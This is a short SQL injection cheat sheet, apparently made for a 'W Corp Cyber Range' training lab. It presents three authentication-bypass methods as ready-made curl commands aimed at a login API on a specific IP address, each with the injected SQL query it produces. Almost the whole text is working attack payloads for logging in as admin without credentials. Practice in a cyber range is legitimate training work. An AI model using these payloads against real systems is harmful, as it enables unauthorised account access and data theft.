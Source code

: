 # SQL Injection Cheat Sheet - W Corp Cyber Range

## 🎯 Quick Reference - Working Commands

All commands tested and verified to work on the W Corp Cyber Range.

---

## 🚀 Authentication Bypass (Easiest)

### Method 1: SQL Comment Bypass (RECOMMENDED)

```bash
# Bypass authentication as admin
curl -X POST http://174.138.71.77/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'\''-- ","password":"anything"}'
```

**How it works:** The `-- ` comments out the password check.

**SQL Query:**
```sql
SELECT * FROM users WHERE username = 'admin'-- ' AND password = 'anything'
-- Everything after -- is ignored!
```

---

### Method 2: OR-Based Bypass

```bash
# Login without knowing credentials
curl -X POST http://174.138.71.77/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'\'' OR '\''1'\''='\''1","password":"x"}'
```

**SQL Query:**
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'x'
-- '1'='1' is always true!
```

---

### Method 3: Password Field Injection

```bash
curl -X POST http://174.138.71.77/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"x'\'' OR '\''1'\''='\''1'\''-- "}'
```

---